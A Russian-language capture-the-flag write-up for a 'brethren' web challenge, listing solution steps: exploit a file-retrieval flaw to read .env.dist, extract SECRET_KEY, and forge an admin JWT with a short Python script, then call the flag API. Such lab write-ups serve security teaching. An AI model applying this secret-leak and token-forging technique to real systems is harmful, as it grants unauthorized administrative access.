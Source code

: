 #hard #web #JWT #FS

#### Задача

| Вводные   | Материалы                                                                                                                                                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Исходники | Исходники бекенда сайта: [brethren.tar.gz](./assets/brethren.tar.gz)                                                                                                                                                            |
| Сайт      | https://t-brethren-y25eg5ir.spbctf.org                                                                                                                                                                                          |
| Условие   | Студенческое капибратство «Тета Каппа» устроило испытание для первокурсников: они должны похитить билеты к экзаменам с сервера института.<br><br>Подмените их на другие — вымышленные. Не только же студентам можно дурачиться! |

#### Решение
- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины

![](./assets/image-9.webp)

![](./assets/image-10.webp)


![](./assets/image-2.webp)

![](./assets/image-3.webp)

![](./assets/image-4.webp)

![](./assets/image-5.webp)

![](./assets/image-6.webp)

![](./assets/image-7.webp)

![](./assets/image-8.webp)


